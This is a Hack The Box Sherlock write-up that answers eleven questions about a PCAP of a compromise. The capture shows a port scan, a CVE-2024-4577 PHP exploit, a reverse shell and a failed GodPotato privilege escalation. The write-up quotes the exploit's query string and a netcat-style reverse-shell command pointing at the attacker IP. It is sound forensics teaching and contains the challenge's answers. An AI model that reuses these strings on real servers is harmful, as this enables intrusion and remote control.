---
tags:
  - htb
  - sherlock
  - easy
  - post
urls:
---
---
# HTB Sherlock - Packet Puzzle Writeup

> **Scenario:** You are a junior security analyst at a small Japanese cryptocurrency trading company. After detecting suspicious activity on the internal network, you exported a PCAP for further investigation. Analyze this capture to determine whether the environment was compromised and reconstruct the attacker’s actions.

# QUESTIONS

1. What is the source IP address of the attacker involved in this Attack?

   **Answer:** `192.168.170.128`

Listing the `.pcap` conversations shows that the IP `192.168.170.128` is communicating with multiple ports, indicating a possible port scan:



2. How many open ports did the attacker discover on the victim's system?

   **Answer:** `8`
   
   The following query filters for `SYN ACK` packets, indicating that the port is open:
   
   ```bash
   tshark -r NetworkTraffic.pcap -T fields -e tcp.srcport -Y "ip.dst==192.168.170.128 && tcp.flags.syn == 1 && tcp.flags.ack == 1" | sort -n | uniq | paste -sd ','
   ``` 
   
   

3. What is the first open port that responded on the victim's system during reconnaissance?

   **Answer:** `22`

4. What is the CVE identifier for the vulnerability exploited by the attacker?

   **Answer:** `CVE-2024-4577`

Suspicious HTTP `POST` requests are made against `?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input`

```
ip.src == 192.168.170.128 && http
```



A quick Google search reveals the CVE name:



5. What is the name and version of the vulnerable product exploited to get RCE?

   **Answer:** `PHP 8.1.25`

Following the HTTP stream of the first frame reveals the version:



6. What is the username of the victim account?

   **Answer:** `cristo`

In the same HTTP stream the name is shown:



7. At what timestamp did the attacker execute the command to gain their initial foothold on the victim system?

   **Answer:** `2025-01-22 09:47:32`

The `POST` request at frame number `12135` sends a `PowerShell` reverse shell:



8. What is the MITRE ATT&CK technique ID used by the attacker to gain an initial foothold?

   **Answer:** `T1190`

The attacker exploited the public facing web page to gain foothold:



9. What is the name of the malicious executable the attacker downloaded and executed in memory to facilitate privilege escalation on the endpoint?

   **Answer:** `GodPotato-NET4.exe`

Filtering by the port to which the victim machine connects reveals the communication:

```
ip.src == 192.168.170.128 && tcp.port == 4545
```

Following any `TCP` stream shows the malicious executable at the bottom:



10. What is the command line used by the attacker while performing privilege escalation?

**Answer:** `./TimeProvider.exe -cmd "time.exe 192.168.170.128 5555 -e cmd"`



11. The attacker failed to escalate privileges and was given an error. What is the error?

**Answer:** `Cannot create process Win32Error:2`

